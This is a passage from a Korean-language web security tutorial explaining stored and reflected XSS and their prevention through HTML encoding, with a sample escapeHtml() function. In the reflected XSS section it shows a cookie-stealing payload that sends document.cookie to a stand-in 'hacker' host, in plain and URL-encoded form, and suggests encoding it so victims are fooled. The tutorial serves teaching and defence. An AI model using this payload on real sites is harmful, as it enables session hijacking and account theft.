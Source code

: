 악성스크립트를 저장시킨 페이지에 사용자가 접속하게 된다면 자동으로 스크립트가 실행되어 공격이 실행 되게 합니다.     

게시글 같은 곳에 `<script> </script>`구문을 써서 포스팅하면 해당 게시글을 들어갈때마다 `script`구문이 실행되게 됩니다.  

>ex) **Stealing User Credentials - Fake login**  
> 1. script구문으로 가짜 로그인창을 생성해서 포스팅
> 2. 해당 게시글을 들어갈때 가짜로그인창이 팝업
> 3. 로그인정보를 넣고 로그인버튼을 누르면 id와 pw가 외부 사이트로 발송(공격자의사이트)  

## Reflected XSS
사용자에게 입력받은 값을 서버에서 되돌려주는 곳에서 발생합니다.  
악성스크립트를 삽입해둔 URL을 다른사용자에게 링크로 보내는데,  
그대로 보내면 안속으니까 url 인코딩을 해서 보내면 속을 확률 up!  

이렇게 사용자가 쉽게 url을 확인할 수 없게 변형시키고 이메일이나 다른 웹사이트등에 클릭을 유도하도록 하는 공격기법입니다.  

>ex) **Stealing Cookie**  
>~~~
>http://testweb?search=<script>location.href("http://hacker/cookie.php?value="+document.cookie);</script>  
>~~~
>를 이런식으로 인코딩->  
>~~~
>http://testweb?search%3d%3cscript%3elocation.href(%22http%3a%2f%2fhacker%2fcookie.php%3fvalue%3d%22%2bdocument.cookie)%3b%3c%2fscript%3e%0d%0a
>~~~
>
>스크립트내용은 testweb에 접속한 유저의 쿠키정보를 hacker사이트로 보내는 역할


# XSS 예방하기!
## 1. HTML Encoding
HTML태그들을 escape문자들로 치환하는 기법입니다.  
![image](https://user-images.githubusercontent.com/15958325/118353520-9808ae80-b5a1-11eb-9126-6788776ee31a.png)  
  
HTML인코딩을 사용하게 되면,  
~~~
<script><alert>Hello World!</alert> </script>
~~~
이런 코드가  
~~~
&lt;script&gt;&lt;alert&gt;Hello&nbsp;World!&lt;/alert&gt;&lt;/script&gt;
~~~
위와 같이 읽히게 됩니다.  
그래서 script가 포함된 plain text가 server단으로 넘어오지 않기 때문에 XSS를 예방할 수 있습니다.  

사용 방법은 아래와 같이 `escapeHtml()`함수를 정의하거나 import해서 사용하면 됩니다.  
~~~js
javascript escapeHtml() 
	
function escapeHtml(str) {
	var map = {
		'&': '&amp;',
		'<': '&lt;',
		'>': '&gt;',
		'"': '&quot;',
		"'": '&#039;'
	};
	return str.replace(/[&<>"']/g, function(m) { return map[m]; });
}

console.log( escapeHtml("<a href='test'>Test</a>") );
// &lt;a href=&#039;test&#039;&gt;Test&lt;/a&gt;

~~~